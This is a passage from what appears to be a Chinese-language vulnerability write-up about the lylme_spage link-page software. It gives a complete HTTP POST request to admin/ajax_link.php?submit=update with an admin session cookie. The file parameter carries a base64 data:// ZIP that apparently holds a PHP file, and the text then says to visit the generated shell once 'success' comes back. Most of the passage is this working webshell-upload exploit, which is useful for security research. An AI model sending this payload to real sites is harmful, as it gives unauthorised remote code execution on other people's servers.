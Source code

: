 3) 获取第二步的结果，构造最终的payload

```plain
POST /lylme_spage-master/admin/ajax_link.php?submit=update HTTP/1.1
Host: localhost:7777
Connection: close
Cookie: admin_token=ec2a3HYAaqQws10zQfeSJaDeJN1aI2gOnV9BLpaHNYdb2hHPQ9nYkoMzuOuQIokfoyJRVcVNK3aT8JUZXq5WSPqTBQ;
Content-Type: application/x-www-form-urlencoded
Content-Length: 198

file=data://text/plain;base64,UEsDBBQAAAAIALMUSFdQg8x9EgAAABIAAAAFAAAAMS5waHCzsS/IKFAA4sy8tHwNTWt7OwBQSwECFAMUAAAACACzFEhXUIPMfRIAAAASAAAABQAAAAAAAAAAAAAAgAEAAAAAMS5waHBQSwUGAAAAAAEAAQAzAAAANQAAAAAA
```

4) 解压成功之后会返回"success", 之后直接访问生成的Shell即可。

[![](assets/1701222538-54c3bc28ee429e88b5ce9028787972ff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135519-8be6c002-8ce9-1.png)

[![](assets/1701222538-055a89bae988987f21ac4493be91ae6c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135529-91f5f936-8ce9-1.png)
